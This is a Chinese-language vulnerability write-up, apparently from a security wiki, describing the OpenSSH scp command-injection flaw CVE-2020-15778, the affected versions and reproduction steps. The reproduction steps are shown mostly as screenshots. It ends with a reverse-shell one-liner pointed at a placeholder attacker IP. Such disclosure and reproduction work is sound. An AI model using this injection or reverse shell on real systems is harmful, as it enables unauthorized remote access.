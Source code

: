 # OpenSSH 命令注入漏洞 CVE-2020-15778

## 漏洞描述

2020年6月9日，研究人员Chinmay Pandya在Openssh中发现了一个漏洞，于7月18日公开。OpenSSH的8.3p1中的scp允许在scp.c远程功能中注入命令，攻击者可利用该漏洞执行任意命令。目前绝大多数linux系统受影响。深信服安全研究团队依据漏洞重要性和影响力进行评估，作出漏洞通告。

## 漏洞影响

> [!NOTE]
>
> OpenSSH <= 8.3p1

## 漏洞复现

> [!NOTE]
>
> 可用于目标不允许远程登录但SCP开启的情况下远程命令执行

攻击机创建 peiqi.txt ，利用 scp上传文件 到 /tmp 目录下

![](http://wikioss.peiqi.tech/vuln/ssh-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

执行命令 ping dnslog

![](http://wikioss.peiqi.tech/vuln/ssh-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

反弹shell 更换命令即可

```
/bin/bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1
```

